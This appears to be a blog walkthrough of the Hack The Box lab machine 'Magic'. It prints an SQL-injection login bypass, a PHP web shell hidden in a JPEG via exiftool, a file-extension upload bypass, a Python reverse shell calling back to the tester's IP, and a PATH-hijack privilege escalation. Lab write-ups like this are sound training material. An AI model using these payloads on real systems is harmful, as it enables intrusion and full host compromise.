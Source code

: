 ```yaml
---
layout: post
title:  "HTB Magic Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Magic, Retired Linux Medium Box
tags: HTB_Walkthrough gobuster suid SQL_injection
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
nmap -sV -sC -p- 10.10.10.185                                                                                                                                                                               [478/478]
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 20:08 CDT
Nmap scan report for 10.10.10.185                      
Host is up (0.043s latency).                                                                                         
Not shown: 65533 closed ports                                                                                        
PORT   STATE SERVICE VERSION                                                                                         
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                    
| ssh-hostkey:                                                                                                       
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)                                                                                                                                                                             
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)                                                                                                                                                                            
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)                                                    
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                                                                                                        
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                         
|_http-title: Magic Portfolio                                                                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                              
                                                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds
{% endhighlight %}

{% highlight bash linenos %}
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.185 -t 30
===============================================================                                                      
Gobuster v3.0.1                                                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                      
===============================================================                                                                                                                                                                            
[+] Url:            http://10.10.10.185                                                                                                                                                                                                    
[+] Threads:        30                                                                                                                                                                                                                     
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt                                                                                                                                                            
[+] Status codes:   200,204,301,302,307,401,403                                                                                                                                                                                            
[+] User Agent:     gobuster/3.0.1                                                                                   
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/05/26 20:10:17 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/assets (Status: 301)                                                                                                                                                                                                                      
/images (Status: 301)                                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
2020/05/26 20:12:26 Finished                                                                                                                                                                                                               
===============================================================
{% endhighlight %}

I was able to identify SQL Injection on a login page, at http://10.10.10.185/login.php, using the following in the username and password fields:

{% highlight bash linenos %}
Username: ' or 1=1 --
Password: ' or 1=1 --
{% endhighlight %}

I tried to upload a PHP reverse shell, but got an error back asking `What are you trying to do here!?` so obviously it is blocked. By changing .php to .jpg resulted in the same error, so moved on. I downloaded an image from the internet, named it index.jpeg and used exfiltool to make a malicious image file:

{% highlight bash linenos %}
exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' index.jpeg
{% endhighlight %}

Once I uploaded, I used BURP to intercept the image file, and sent to repeater. Once in repeater, I changed the filename to index.php.jpeg and sent the POST forward:

<img src="/images/posts/magic_walkthrough/burp_repeater.png" alt="burp_repeater">

Once the malicious image was uploaded, I went back to the home page that was full of images, and I found that images were uploaded to `/images/uploads`. With this, I went to my image at `10.10.10.186/images/uploads/index.php.jpeg` and could then run commands:


{% highlight bash linenos %}
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

Then, I got to work on a reverse shell! There were many shells that would not connect back. Eventually, I found python3 in `/usr/bin` and used a python reverse shell using my web shell:

{% highlight bash linenos %}
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.64",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

And I got a reverse shell back:

<center><img src="/images/posts/magic_walkthrough/shell.png" alt="shell"></center>

I then began enumerating the `/var/www/Magic directory`, working my way down. Eventually I came across a `bk.sql` file, that had hardcoded credentials:

<center><img src="/images/posts/magic_walkthrough/bk-sql.png" alt="bk-sql"></center>

It did not work for root, but there is another user on the system, `theseus`. I was able to log right in as that user:

<center><img src="/images/posts/magic_walkthrough/theseus.png" alt="theseus"></center>

And I owned user:

{% highlight bash linenos %}
cat /home/theseus/user.txt
xxxxxxxxxxxxxxxxxxxxff70c41c8b037eaab
{% endhighlight %}

While enumerating for root, I found that the `sysinfo` binary had SUID set:

{% highlight bash linenos %}
find / -perm -u=s -type f 2>/dev/null
...
/bin/sysinfo
...
{% endhighlight %}

Looking on the internet, there are a lot of MagniComp vulnerabilities that appeared for this binary. Ultimately, this was a combination of two attacks to get root. First, was a PATH injection. I had to set a path, in this case `/tmp`, into the `$PATH` variable for a malicious binary to run:

<center><img src="/images/posts/magic_walkthrough/path-injection.png" alt="path-injection"></center>

And now that we have our path set, let's make the malicious binary. When sysinfo runs, it calls lshw to look at the hardware on the system. Make a malicious lshw file:

{% highlight bash linenos %}
echo "/bin/cat /root/root.txt" > lshw
chmod 777 lshw
{% endhighlight %}

Then once sysinfo is run, you will have root!

{% highlight bash linenos %}
cat /root/root.txt
xxxxxxxxxxxxxxxxxx051a7763c65c29a26f4
{% endhighlight %}
